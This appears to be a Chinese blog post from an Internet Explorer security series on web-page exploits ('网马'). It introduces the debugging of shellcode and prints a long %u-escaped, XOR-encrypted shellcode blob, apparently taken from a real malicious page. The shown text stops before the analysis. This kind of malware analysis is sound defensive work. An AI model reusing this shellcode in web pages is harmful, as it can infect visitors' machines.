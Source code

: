 # IE安全系列：脚本先锋（IV）—网马中的Shellcode

脚本先锋系列第四章，也是最后一章。将介绍对Shellcode的调试，以及SWF、PDF漏洞的利用文件的简单处理过程。

下一部分预告：

**_IE安全系列：中流砥柱（I） — JScript 5 解释器处理基本类型、函数等的简单介绍_**

IE中使用的Javascript解析器经历了多年的磨练，终于在版本5处分成了两个大版本，5之后的9，二者的关联和对一些内容的处理方式的不同之处，这两篇中，第一篇将对Jscript 5.8引擎中的字处理、函数调用等做简单的介绍。

**_IE安全系列：中流砥柱（II） — JScript 9（Charka）编译后字节码的简单介绍_**

多年磨练之后，Jscript 9的性能得到了很大的提升，9和5处理起一些基本类型数据的区别会在这篇简要叙述，这篇会有和（I）类似的介绍，只不过是针对Charka的脚本流程的。 （这个成语，我想大概也能这么用吧……）

VI.1 调试Shellcode
================

* * *

上一篇（V.2）中，我们留下了一个全篇使用XOR 0xE2加密的Shellcode，这篇中，我们将使用调试工具解密它。

escape 之后的SHELLCODE如下：

```
%u0C0C%u6090%u1CEB%u4B5B%uC933%uB966%u03F8%u3B81%u0BFF%uE160%u850F%u0254%u0000%u3480%uE20B%uFAE2%u05EB%uDFE8%uFFFF%u0BFF%uE160%uE2E2%u86BD%uD243%uE2E2%u69E2%uEEA2%u9269%u4FFE%u8A69%u69EA%u8815%uBBED%uC00A%uE2E1%u72E2%u1A00%uD18A%uE2D0%u8AE2%u91B7%u9087%u69B6%uEEA4%u720A%uE2E0%u69E2%u880A%uBBE3%uE00A%uE2E1%u00E2%u8A1B%u8C8D%uE2E2%u978A%u8E90%uB68F%uF41D%u2267%uF197%u8D8A%uE28C%u8AE2%u9097%u8F8E%u69B6%uEEA4%u820A%uE2E0%u69E2%u880A%uBBE3%u300A%uE2E0%u00E2%u8A1B%uD18E%uE2D0%u918A%u878A%uB68E%uA469%u0AEE%uE0A3%uE2E2%u0A69%uE388%u0ABB%uE051%uE2E2%u1B00%u0E63%uE3E2%uE2E2%u3E69%u2163%uE262%uE2E2%uE288%uF888%u88B1%u1DE2%uA6B4%u22D1%u62A2%uE1DE%u97E2%u6B1B%u7264%uE2E2%u25E2%uE1E6%u83BE%u87CC%uA625%uE6E1%u879A%uE2E2%u2BD1%uB3B3%uB5B1%uD1B3%u6922%uA2A4%u0C0A%uE2E3%u61E2%uE21A%u67ED%uE37E%uE2E2%uE288%uE288%uE188%uE288%uE088%uE28A%uE2E2%uB122%uA469%u0AC6%uE32F%uE2E2%u1A61%uED1D%u9966%uE2E3%u6BE2%u82A4%uE288%u1DB2%uCAB4%uA46B%u6986%u7264%uE2E2%u25E2%uE1E6%u80BE%u87CC%uA625%uE6E1%u879A%uE2E2%uE288%uE288%uE088%uE288%uE288%uE28A%uE2E2%uB1A2%uA469%u0AC6%uE369%uE2E2%u1A61%uED1D%uDB66%uE2E3%u6BE2%u6664%uE2E2%u6BE2%u6E7C%uE2E2%u69E2%u82A4%uE288%uE288%uE288%uA469%uB282%uB41D%u25DA%u92A4%uE2E2%uE2E2%uA425%uE296%uE2E2%u63E2%uE225%uE2E0%uD1E2%u6939%u86BC%uE288%uA46F%uB292%uE28A%uE2E6%uB5E2%u941D%u1D82%uE6B4%u2BD1%uE25B%uE2E6%u62E2%uED9E%u771D%uEE96%u9E62%u1DED%u96E2%u62E7%uED96%u771D%u0900%u2169%uE2CF%uE2E6%u61E2%uE21A%uE19D%uBC6B%u8892%u6FE2%u96A4%u1DB2%u9294%u1DB5%u6654%uE2E2%u1DE2%uD2B4%u0963%uE6E2%uE2E2%u1961%u9DE2%u1D47%u8294%uB41D%u1DD6%u6654%uE2E2%u1DE2%uD6B4%u6469%uE272%uE2E2%u7C69%uE26E%uE2E2%uE625%uBEE1%uCC83%uB187%uB41D%u69CE%u6E5C%uE2E2%u69E2%u7264%uE2E2%u25E2%uE5E6%u80BE%u87CC%u0E63%uE3E2%uE2E2%u3E69%uE28A%uE2E3%uB1E2%uE28A%uE2E3%uB5E2%uE288%uE288%uB41D%u69FE%uD119%uD122%u6339%uE20E%uE2E0%u69E2%u612E%uB61A%uEA9F%uFE6B%u61E3%uE622%u1109%u2E69%u3B69%u2161%uD1F2%uB222%uB1B3%uB2B2%uB2B2%uB2B2%uB2B5%u69B2%uEAA4%u650A%uE2E2%u63E2%uFA26%uE2E6%u83E2%uA425%uE1F6%uE2E2%uD1E2%u692B%uC6DE%u0D61%u6194%uEA26%u2BD1%u051D%uE288%uB41D%u86F6%uD243%uE2E2%u69E2%uEEA2%u9269%u4FFE%u8A69%u69EA%u6B15%u86B4%uE688%u0ABB%uE241%uE2E2%u0072%u8A1A%uD0D1%uE2E2%uB78A%u8791%uB690%uE469%uF00A%uE2E2%u69E2%u880A%uBBE7%u660A%uE2E2%u00E2%uD11B%uB51D%uB41D%u62E6%u0ADA%uDA62%u970B%u63F3%uE79A%u7272%u7272%uEA96%u1D69%u69B7%u6F0E%uE7A2%u021D%uDA0A%uE2E2%u21E2%uDA62%u620A%u0BDA%uF397%u9A63%u72E7%u7272%u9672%u8A05%uE8EA%uE2E2%uA26F%u1DE7%u0A02%uE2F5%uE2E2%u0A21%uE2F3%uE2E2%uF35A%uE6E3%u2062%uE2EE%uE009%u21BA%u1B0A%u1D1D%uB91D%uE524%u6B5A%uE3BD%u2584%uE7A5%u021D%uB121%u3E69%u88B1%u8AA2%uF2E2%uE2E2%u69B5%uC2A4%u640A%u1D1D%uBA1D%uB321%u69B4%uDE97%u9669%u9ACC%u17E1%u69B4%uC294%u17E1%u2BD1%uA3AB%uE14F%uD127%uED39%uF25C%u34D8%uEA96%u2923%uE1E5%uA238%u1309%uFDD9%u0597%u69BC%uC6BC%u3FE1%u6984%uA9EE%uBC69%uE1FE%u693F%u69E6%u27E1%uBC49%u21BB%u9B0A%u1D1E%u501D%u0010%u5016%uEDD4%u12F1%u99AA%uD0DF%u7396%u67EE%u4D3D%u8159%u336B%uB3AD%u58A2%uE59D%uC070%uFC92%u8646%u710D%u06D0%u6C76%uE8F1%u9B4E%u04DB%u267A%uFD6F%uB596%uEF84%uA11D%u4E5C%u7A39%uF2E8%u621A%u4D34%u1978%uF7B1%u8A84%u9696%uD892%uCDCD%u8083%uCC8C%u8C86%uD291%uD7D5%uCCD7%u878C%uCD96%uCD86%u8686%uCC86%u9A87%uE287%uE2E2

```

